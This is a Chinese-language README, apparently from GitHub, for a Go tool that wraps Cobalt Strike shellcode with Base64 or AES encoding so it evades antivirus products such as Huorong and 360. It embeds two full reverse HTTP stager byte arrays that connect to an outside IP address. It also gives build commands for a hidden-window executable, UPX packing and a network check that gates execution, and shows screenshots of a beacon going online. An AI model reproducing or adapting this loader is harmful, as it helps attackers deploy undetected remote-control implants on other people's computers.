 **目前两种方法都可以过火绒、360安全、360杀毒**


## Base64
进到`Base64`目录，里面有两个文件，分别为`main.go`、`Base64.go`。首先将`Base64.go`里面的buf参数改为自己的shellcode内容
```go
const (
	buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x1d\x09\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x4e\x6f\x69\x37\x00\x69\xc5\xf5\xea\x51\xaa\x33\x38\x43\x1b\xc0\x75\x48\x28\xfd\x0f\xaa\x0b\x88\x3a\x30\x68\x21\xac\x09\xd7\x63\x7d\xa3\x7d\x17\x35\x6b\x9a\xa8\x31\xdc\xd0\xb8\xa3\x29\x34\x93\x7d\x22\xba\xab\x9d\x4b\xa0\x1d\xb0\x93\x01\x0f\x4b\x89\x2b\x30\xf0\x5f\x7c\xa5\xb9\xa0\xda\xe0\x38\x8e\xd0\xa9\x56\x5d\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x4d\x41\x4c\x43\x29\x0d\x0a\x00\x25\x31\x24\x1c\x67\xa0\xe9\x12\x19\x27\xc8\x85\xe0\x4d\x0a\xab\xaf\xf8\x46\x3c\x3d\x2f\x64\xca\x19\x11\x3c\x52\xd0\x6e\xd3\x9d\x4a\xa9\x91\xa0\xa1\x7f\xb7\x54\xcd\xb9\xfa\xd7\x1d\x6b\xc9\x92\xbf\xc2\x1a\xab\x96\x05\xbf\x40\x8d\x85\x55\x15\xc3\xcb\xb6\xf5\xed\x52\x8b\x57\xa2\x59\xad\x42\x7f\xbe\xbd\xe1\x3d\xc7\x81\x36\xcf\xd8\x8f\x5a\xd6\x8d\x06\xcb\x12\x1e\x32\xab\xc5\x41\xa1\x1e\x2a\xab\x75\x6d\xce\x1e\xde\x2f\x37\x12\x1c\x9c\xfe\x99\x7a\x0b\xca\x7e\x8e\xaf\xbf\x19\x2c\xf1\x56\xae\xae\x06\x0a\x33\x70\x8e\x10\xc2\x58\x49\xba\x9d\xf6\x9f\xd8\x5a\x77\x75\x73\x1d\x2d\x0e\x00\xc5\x44\x9c\x82\xf6\x96\x01\x83\x63\x61\x92\xac\x78\xa6\x94\x4c\x10\x5b\xdb\x5e\xbb\xef\xc6\xaf\xc3\xab\x6b\x34\x51\x99\xc0\xe0\x15\xdc\x86\xf1\xf3\x23\x53\x6c\x15\x4b\x12\x74\xc1\xd3\x38\x0c\x00\xd5\x78\xdc\x76\xf2\x64\x4c\x31\xea\xe8\x30\x52\x40\xc8\x9f\xfa\x7f\x44\x62\x38\x72\x93\x2d\xb2\x60\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x34\x39\x2e\x32\x33\x33\x2e\x33\x34\x2e\x32\x34\x33\x00\x19\x69\xa0\x8d"
)
```
运行`Base64.go`
```go
go run Base64.go
```
![image](https://user-images.githubusercontent.com/73928418/123949478-324b7700-d9d5-11eb-9d4f-3699431c4cba.png)
第一个参数是base64编码后的shellcode，第二个参数是随机替换的字符串，这两个参数待会都会用到<br/>
在同目录下编译`main.go`
```go
go build -trimpath -ldflags="-w -s -H=windowsgui" -o main.exe main.go
```
运行`mian.exe` 分别填写上一步生成的两个参数，注意空格
![image](https://user-images.githubusercontent.com/73928418/124044542-3e205300-da40-11eb-8a9b-a66dd9ab0713.png)
Cobalstrike上线
![image](https://user-images.githubusercontent.com/73928418/124044579-54c6aa00-da40-11eb-9dc6-bdac33554ea2.png)
## AES
首先进到`AES`目录，里面有两个文件，分别为`Aes.go`、`main.go`。首先将`Aes.go`里面的buf参数改为自己的shellcode内容
```go
const (
	buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x1d\x09\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x4e\x6f\x69\x37\x00\x69\xc5\xf5\xea\x51\xaa\x33\x38\x43\x1b\xc0\x75\x48\x28\xfd\x0f\xaa\x0b\x88\x3a\x30\x68\x21\xac\x09\xd7\x63\x7d\xa3\x7d\x17\x35\x6b\x9a\xa8\x31\xdc\xd0\xb8\xa3\x29\x34\x93\x7d\x22\xba\xab\x9d\x4b\xa0\x1d\xb0\x93\x01\x0f\x4b\x89\x2b\x30\xf0\x5f\x7c\xa5\xb9\xa0\xda\xe0\x38\x8e\xd0\xa9\x56\x5d\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x4d\x41\x4c\x43\x29\x0d\x0a\x00\x25\x31\x24\x1c\x67\xa0\xe9\x12\x19\x27\xc8\x85\xe0\x4d\x0a\xab\xaf\xf8\x46\x3c\x3d\x2f\x64\xca\x19\x11\x3c\x52\xd0\x6e\xd3\x9d\x4a\xa9\x91\xa0\xa1\x7f\xb7\x54\xcd\xb9\xfa\xd7\x1d\x6b\xc9\x92\xbf\xc2\x1a\xab\x96\x05\xbf\x40\x8d\x85\x55\x15\xc3\xcb\xb6\xf5\xed\x52\x8b\x57\xa2\x59\xad\x42\x7f\xbe\xbd\xe1\x3d\xc7\x81\x36\xcf\xd8\x8f\x5a\xd6\x8d\x06\xcb\x12\x1e\x32\xab\xc5\x41\xa1\x1e\x2a\xab\x75\x6d\xce\x1e\xde\x2f\x37\x12\x1c\x9c\xfe\x99\x7a\x0b\xca\x7e\x8e\xaf\xbf\x19\x2c\xf1\x56\xae\xae\x06\x0a\x33\x70\x8e\x10\xc2\x58\x49\xba\x9d\xf6\x9f\xd8\x5a\x77\x75\x73\x1d\x2d\x0e\x00\xc5\x44\x9c\x82\xf6\x96\x01\x83\x63\x61\x92\xac\x78\xa6\x94\x4c\x10\x5b\xdb\x5e\xbb\xef\xc6\xaf\xc3\xab\x6b\x34\x51\x99\xc0\xe0\x15\xdc\x86\xf1\xf3\x23\x53\x6c\x15\x4b\x12\x74\xc1\xd3\x38\x0c\x00\xd5\x78\xdc\x76\xf2\x64\x4c\x31\xea\xe8\x30\x52\x40\xc8\x9f\xfa\x7f\x44\x62\x38\x72\x93\x2d\xb2\x60\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x34\x39\x2e\x32\x33\x33\x2e\x33\x34\x2e\x32\x34\x33\x00\x19\x69\xa0\x8d"
)
```
运行`Aes.go`
```go
go run Aes.go
```
![image](https://user-images.githubusercontent.com/73928418/124045210-c3583780-da41-11eb-9da1-baacfb03404c.png)
第一个参数是AES加密后的shellcode，第二个参数是加密密钥，这两个参数待会都会用到<br/>
在同目录下编译`main.go`
```go
go build -trimpath -ldflags="-w -s -H=windowsgui" -o main.exe main.go
```
运行`mian.exe` 分别填写上一步生成的两个参数，注意空格
![image](https://user-images.githubusercontent.com/73928418/124045359-0fa37780-da42-11eb-81f2-36e89ba41469.png)
CobaltStrike上线
![image](https://user-images.githubusercontent.com/73928418/124045379-1d58fd00-da42-11eb-8754-ee31d52a05d0.png)
**PS：**
1. 这里采用的是根据网页状态码判断是否执行shellcode，当然这里的url也可以换成自己的VPS网址
```go
func main() {
	resp, _ := http.Get("http://www.baidu.com")
	defer resp.Body.Close()
	if resp.StatusCode == 200 {
		if len(os.Args) == 3 {
			AesBuild(os.Args[1], []byte(os.Args[2]))
		}
	}
}
```
2. 两个文件编译后大概4M，用UPX压缩一下后，可以达到1.5M
![image](https://user-images.githubusercontent.com/73928418/124045998-8a20c700-da43-11eb-924d-2eaf1b11b436.png)

